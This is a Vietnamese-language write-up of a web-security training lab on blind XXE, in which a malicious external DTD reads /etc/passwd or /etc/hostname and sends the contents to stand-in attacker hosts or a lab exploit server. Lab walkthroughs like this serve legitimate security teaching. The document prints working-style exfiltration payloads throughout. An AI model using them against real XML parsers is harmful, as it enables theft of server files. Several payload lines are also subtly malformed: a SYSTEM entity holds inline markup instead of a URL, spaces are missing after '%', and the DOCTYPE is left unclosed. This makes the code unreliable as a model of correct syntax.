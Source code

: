 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

# Example


Giả sử chúng ta có một ứng dụng web cho phép người dùng nhập dữ liệu và xem nội dung của tệp XML được tạo ra từ dữ liệu đó. Ứng dụng này sử dụng một quá trình phân tích XML để phân tích và hiển thị dữ liệu.

Tuy nhiên, ứng dụng này bị mắc lỗi XXE và không kiểm tra và ngăn chặn các entity bên ngoài được tham chiếu trong tài liệu XML. Điều này có nghĩa là chúng ta có thể sử dụng một tệp DTD bên ngoài để thực hiện cuộc tấn công blind XXE và lấy trộm dữ liệu từ hệ thống mục tiêu.

Ví dụ, chúng ta có tệp DTD độc hại có tên "evil.dtd" với nội dung sau:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

Trong ví dụ này, chúng ta định nghĩa một entity có tên "file" để tham chiếu tới tệp "/etc/passwd" và sử dụng entity "exfiltrate" để gửi dữ liệu đó tới một máy chủ của kẻ tấn công thông qua một yêu cầu HTTP.

Sau đó, chúng ta tạo một tệp XML bằng cách sử dụng tệp DTD bên ngoài và gửi nó tới ứng dụng web mục tiêu:

```xml
<!DOCTYPE foo SYSTEM "http://attacker.com/evil.dtd">
<foo>&exfiltrate;</foo>
```

Khi ứng dụng web phân tích tệp XML này, nó sẽ tải tệp DTD từ địa chỉ `"http://attacker.com/evil.dtd"`. Tệp DTD độc hại sẽ tạo ra một yêu cầu HTTP tới máy chủ của kẻ tấn công chứa dữ liệu được lấy từ "/etc/passwd". Kẻ tấn công có thể thu thập và lưu trữ dữ liệu đó.

# Solution:

Ta có form của lab như sau

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/8c22258d-5c53-4290-91c4-dfed90a6ed35)

Làm như tương tự các lab trước, ta check stock

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/3e590be1-3c13-40b7-879f-452a6ce7a0a5)

Kế đó ta xác dịnh doctype và sau đó là entity là `loadDtd` và sử dụng lệnh `SYSTEM` để exploit server `https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/`

```xml
<!DOCTYPE test [<!ENTITY %loadDtd SYSTEM "https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/exploit">]
```

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/c5a037a1-d6e7-4764-a979-b588d9cc281d)


Sau đó ta cần host `loadDtd` file. Chúng ta cần host bời vì ta sẽ sử dụng Stack Entities

```xml
<!ENTITY  %file SYSTEM "file:///etc/hostname">
<!ENTITY % stack SYSTEM "<!ENTITY &#x25; exfil 'http://attacker-server.com/%file;'>">
%stack;
%exfil;
```

Đoạn mã trên định nghĩa các entity trong XML để thực hiện một cuộc tấn công XXE thông qua stack entities. Cụ thể:

- Dòng đầu tiên `<!ENTITY  %file SYSTEM "file:///etc/hostname">` định nghĩa một entity `%file` mà giá trị của nó là nội dung của tệp `/etc/hostname` trên hệ thống.
- Dòng thứ hai `<!ENTITY % stack SYSTEM "<!ENTITY &#x25; exfil 'http://attacker-server.com/%file;'>">` định nghĩa một entity `%stack` mà giá trị của nó là một đoạn văn bản XML mới chứa một entity `%exfil` đặc biệt.
- Dòng thứ ba `%stack;` sử dụng entity `%stack`, trong đó nói với trình phân tích XML rằng nó nên chèn nội dung của entity `%stack` vào tài liệu XML chính.
- Dòng thứ tư `%exfil;` sử dụng entity `%exfil`, nó chèn URL `http://attacker-server.com/%file` vào tài liệu XML. Điều này có thể được sử dụng để exfiltrate (đánh cắp) dữ liệu từ tệp `/etc/hostname` thông qua việc gửi yêu cầu HTTP đến máy chủ tấn công `http://attacker-server.com`.

Qua đó, tấn công này cố gắng đọc nội dung của tệp `/etc/hostname` trên máy chủ mục tiêu và gửi nó đến máy chủ tấn công thông qua exfiltration.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/88218a45-4868-4621-aa61-b63793d5190c)

Vậy thì sau khi xml praser xử lí xml của ta nó sẽ tìm kiếm file dtd của ta tại exploit server sau `/exploit`. Tiếp theo ta cần host  file dtd. Ta cần thêm 3 entites cho exploit server

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack SYSTEM "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/?%file;'>"> 
```

Dòng đầu tiên: <!ENTITY %file SYSTEM "file:///etc/hostname"> định nghĩa một entity %file mà giá trị của nó là nội dung của tệp /etc/hostname trên hệ thống. Đây là một phần hợp lệ của XXE, cho phép đọc tệp từ hệ thống.

Dòng thứ hai: <!ENTITY %stack SYSTEM "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/?%file;'>"> định nghĩa một entity %stack mà giá trị của nó là một đoạn văn bản XML mới. Đoạn văn bản này tạo ra một entity con %exfil với giá trị là URL https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/?%file;.

Đoạn mã này có tác dụng tạo ra một chuỗi các entity, cho phép tấn công viên truy cập URL https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/?%file; và exfiltrate (đánh cắp) nội dung của tệp /etc/hostname.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/4b8684be-8dfe-4938-a088-96bdb41c2a23)

Sau đó ta cần tham chiếu `stack` và `exfil` mà ta đã tạo trong exploit server

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/72354315-7d4b-4798-b8ee-307007ab6d48)

Sau đó chỉ cần `store exploit` và send request





